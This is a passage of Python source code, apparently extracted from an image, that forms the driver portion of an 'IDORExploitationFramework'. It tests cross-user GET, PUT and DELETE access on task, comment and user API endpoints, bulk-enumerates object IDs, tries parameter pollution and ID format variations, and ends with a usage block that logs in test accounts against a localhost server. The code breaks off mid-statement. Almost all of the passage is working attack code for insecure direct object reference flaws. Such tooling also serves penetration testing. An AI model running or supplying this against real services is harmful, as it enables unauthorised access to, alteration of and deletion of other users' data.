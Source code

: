 ```python
        vulnerable_endpoints = self.discover_idor_endpoints()
        results['discovery'] = vulnerable_endpoints
        
        # Step 2: Test cross-user access
        common_endpoints = [
            '/api/tasks/{id}',
            '/api/comments/{id}',
            '/api/users/{id}'
        ]
        
        for endpoint in common_endpoints:
            for method in ['GET', 'PUT', 'DELETE']:
                cross_access_results = self.test_cross_user_access(endpoint, method)
                results['cross_user_access'].extend(cross_access_results)
        
        # Step 3: Bulk enumeration
        for endpoint in common_endpoints:
            enumeration_results = self.enumerate_objects_bulk(endpoint, max_id=100)
            results['bulk_enumeration'].extend(enumeration_results)
        
        # Step 4: Parameter pollution testing
        for endpoint in common_endpoints:
            pollution_results = self.test_parameter_pollution(endpoint)
            results['parameter_pollution'].extend(pollution_results)
        
        # Step 5: ID format variations
        if results['bulk_enumeration']:
            test_id = results['bulk_enumeration'][0]['id']
            for endpoint in common_endpoints:
                format_results = self.test_idor_with_different_formats(test_id, endpoint)
                results['id_format_variations'].extend(format_results)
        
        return results

# Usage example
if __name__ == "__main__":
    BASE_URL = "http://localhost:3000"
    
    # Get authentication tokens for multiple users
    def get_auth_token(base_url, email, password):
        login_data = {"email": email, "password": password}
        response = requests.post(f"{base_url}/api/auth/login", json=login_data)
        return response.json().get('token') if response.status_code == 200 else None
    
    # Create multiple test users
    test_users = {
        'user1': get_auth_token(BASE_URL, "user1@test.com", "password123"),
        'user2': get_auth_token(BASE_URL, "user2@test.com", "password123"),
        'admin': get_auth_token(BASE_URL, "admin@test.com", "password123")
    }
    
    # Filter out failed authentications
    auth_tokens = {user: token for user, token in test_users.items() if token}
    
    if len(auth_tokens) >= 2:
        # Initialize IDOR framework
        idor_framework = IDORExploitationFramework(BASE_URL, auth_tokens)
        
        # Perform comprehensive IDOR testing
        results = idor_framework.comprehensive_idor_test()
        
        # Save results
        with open('idor_exploitation_results.json', 'w') as f:
```